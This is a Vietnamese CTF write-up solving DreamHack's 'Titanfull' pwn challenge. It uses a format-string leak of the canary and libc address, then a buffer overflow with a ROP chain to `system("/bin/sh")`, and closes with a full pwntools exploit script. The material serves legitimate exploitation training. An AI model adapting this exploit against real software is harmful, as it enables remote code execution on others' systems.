




# Titanfull---Write-up-----DreamHack
Hướng dẫn cách giải bài Titanfull cho anh em mới chơi pwnable.

**Author:** Nguyễn Cao Nhân aka Nhân Sigma

**Category:** Binary Exploitation

**Date:** 25/12/2025

## 1. Mục tiêu cần làm
Giờ ta xem thử bài này có các lớp bảo vệ gì



Gần như bật full, không bất ngờ lắm. Giờ mổ xẻ thử code thôi.

```C
void __noreturn menu()
{
  int v0; // [rsp+Ch] [rbp-54h] BYREF
  char buf[72]; // [rsp+10h] [rbp-50h] BYREF
  unsigned __int64 v2; // [rsp+58h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("-----------------------------------------------------------------------");
  puts(&byte_2108);
  puts(&byte_21E0);
  puts(&byte_22B8);
  puts(&byte_2390);
  puts(&byte_2468);
  puts(&byte_2540);
  puts("-----------------------------------------------------------------------");
  write(1, "What your name pilot? > ", 0x18uLL);
  read(0, buf, 0x30uLL);
  printf("hello, ");
  printf(buf);
  while ( 1 )
  {
    do
    {
      while ( 1 )
      {
        puts("1. Titan select");
        puts("2. Lunch Titan");
        puts("3. exit");
        printf("> ");
        __isoc99_scanf("%d", &v0);
        if ( v0 != 7274 )
          break;
        if ( check != 1 )
          vanguard();
        else
          puts("You already select titan!");
      }
    }
    while ( v0 > 7274 );
    if ( v0 == 3 )
      break;
    if ( v0 <= 3 )
    {
      if ( v0 == 1 )
      {
        if ( check != 1 )
          select_titan();
        else
          puts("You already select titan!");
      }
      else if ( v0 == 2 )
      {
        if ( check )
        {
          printf("Standby for titanfall!");
          exit(0);
        }
        puts("Plese select titan!");
      }
    }
  }
  exit(0);
}
```

Nếu ta chọn menu là `7274` thì ta sẽ vô menu ẩn

```C
unsigned __int64 vanguard()
{
  char v1[24]; // [rsp+0h] [rbp-20h] BYREF
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("You selected RSR vanguard class titan!");
  printf("Please enter the name of titan : ");
  __isoc99_scanf("%s", v1);
  check = 1;
  return __readfsqword(0x28u) ^ v2;
}
```

Ở đây có lỗi **Buffer Overflow**, vừa đủ để tạo 1 **ROPchain** để thay saved RIP. Vậy là rõ, ta chỉ cần leak được Canary và tìm được Libc base là đẹp.

## 2. Cách thực thi
Ở đây mình phát hiện 1 chỗ gây lỗi **Format String**.

```C
read(0, buf, 0x30uLL);
  printf("hello, ");
  printf(buf);
```

Chúng ta có thể dùng `%X$p` để leak Canary và Libc nếu tìm được X. Mình đã thử mò trong gdb. Các bạn hãy mở gdb lên, đặt breakpoint sau `read buf`. Sau đó gõ `x/60xg $rsp`.



Mình nhập tên pilot là `AAAA` nên nó nằm ở `0x7fffffffde50`. Ta thấy Canary nằm ở `0x7fffffffde90` và Leak Libc nằm ở `0x7fffffffdeb0` ( đây là libc_start_main ). Ta có thể nhờ Gemini tính toán offset dùm. Nó sẽ là `%17$p` và `%21$p`. 

```Python
p.sendlineafter(b"name pilot? > ", b"%17$p.%21$p")
p.recvuntil(b"hello, ")
leak = p.recvline().strip().split(b".")

canary = int(leak[0], 16)
libc_leak = int(leak[1], 16)

log.success(f"Canary: {hex(canary)}")
log.success(f"Libc Leak: {hex(libc_leak)}")
```

Tiếp theo là tính toán Libc base. Bài này khá là lỏ vì mình đã build **Dockerfile** từ bài nhưng `libc.so.6` vẫn khác với host, nên mình đã chạy xem thử đuôi của `libc_start_main` chương trình là gì và tìm nó trên `libc.rip`.



Đuôi là 083, giờ thì hãy vô `libc.rip` điền vào như sau.



Mình cũng đã nhờ Gemini chọn dùm mình và nó đã chọn `libc6_2.31-0ubuntu9.9_amd64`, và tuyệt vời hơn nó cung cấp cho mình luôn `offset` mà không cần phải tải ( cảm ơn bé Gemini-loli ).

```Python
libc_base= libc_leak - 0x24083 
log.success(f"Libc Base: {hex(libc_base)}")
```

Vậy là có đủ rồi, giờ hãy viết ROPchain và băm thôi. Vì đã có Libc base nên ta chắc chắn sẽ xài `system(/bin/sh)`.

```Python
system_addr = libc_base + 0x52290
binsh_addr  = libc_base + 0x1b45bd
pop_rdi     = libc_base + 0x23b6a # Gadget
ret         = libc_base + 0x22679 # Gadget align stack
```

Tất cả địa chỉ trên đều nhờ Gemini cung cấp dựa vào phiên bản Libc. Giờ có đủ hết rồi thì ta sẽ làm bước cuối cùng là truy cập vào hàm ẩn và cho nổ shell thôi.

```Python
payload = b'A' * 24
payload += p64(canary)
payload += p64(0)           # saved RBP

payload += p64(pop_rdi)
payload += p64(binsh_addr)
payload += p64(ret)
payload += p64(system_addr)

p.sendlineafter(b"> ", b"7274")
p.sendlineafter(b"Please enter the name of titan : ", payload)
```

Vậy là xong, bài này khá dễ so với 1 bài ở lvl 3. Dù sao thì hãy cho mình và Gemini-loli 1 star để có động lực viết tiếp nha 🐧.

## 3. Exploit

```Python
from pwn import *

p = remote('host8.dreamhack.games', 14108)
# libc = ELF('./libc.so.6')

p.sendlineafter(b"name pilot? > ", b"%17$p.%21$p")
p.recvuntil(b"hello, ")
leak = p.recvline().strip().split(b".")

canary = int(leak[0], 16)
libc_leak = int(leak[1], 16)

log.success(f"Canary: {hex(canary)}")
log.success(f"Libc Leak: {hex(libc_leak)}")

libc_base= libc_leak - 0x24083 
log.success(f"Libc Base: {hex(libc_base)}")

system_addr = libc_base + 0x52290
binsh_addr  = libc_base + 0x1b45bd
pop_rdi     = libc_base + 0x23b6a # Gadget
ret         = libc_base + 0x22679 # Gadget align stack

payload = b'A' * 24
payload += p64(canary)
payload += p64(0)

payload += p64(pop_rdi)
payload += p64(binsh_addr)
payload += p64(ret)
payload += p64(system_addr)

p.sendlineafter(b"> ", b"7274")
p.sendlineafter(b"Please enter the name of titan : ", payload)

p.interactive()
```
